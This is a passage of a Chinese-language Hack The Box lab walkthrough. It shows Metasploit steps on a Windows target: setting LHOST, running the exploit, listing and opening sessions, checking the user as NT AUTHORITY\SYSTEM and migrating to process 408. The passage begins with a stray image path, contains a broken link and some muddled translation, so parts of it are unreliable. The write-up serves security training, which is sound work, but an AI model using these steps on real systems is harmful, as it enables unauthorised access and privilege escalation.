并将 LHOST 设置为我的 IP 地址

```
set LHOST 10.10.14.36
```

你可以在这里查看你的[。](https://www.hackthebox.eu/home/htb/access)

![Screenshot-2020-04-28-at-16.13.44](img/77a3b8a47372123bb1d259d50223eaa8.png)

然后，我使用

```
exploit
```

![Screenshot-2020-04-28-at-16.13.57](img/ad402c8c363a351efc34722046670cd4.png)

这确认了漏洞利用成功了，但是我还是没有得到一个外壳。我检查了会话

```
sessions -l
```

我应该的

```
NT AUTHORITY\SYSTEM
```

![Screenshot-2020-04-29-at-23.33.31](img/81feaa5b80ba2aad454c160e24a4c7c5.png)

现在不是了，所以我回到这个话题

```
sessions -i 1
```

![Screenshot-2020-04-28-at-16.38.45](img/89712790261a68133af7901b1b427dea.png)

我检查 **getuid** 并取回 **NT AUTHORITY\SYSTEM** 。我在目标系统上得到一个标准 shell，并检查我在机器上是谁。我拿回了 **NT 权限\网络服务**，这不是我想要的！

我退出这个 shell 并检查进程。我可以看到我在这台机器上有管理员权限。我只是需要迁移到另一个进程，我用

```
migrate 408
```
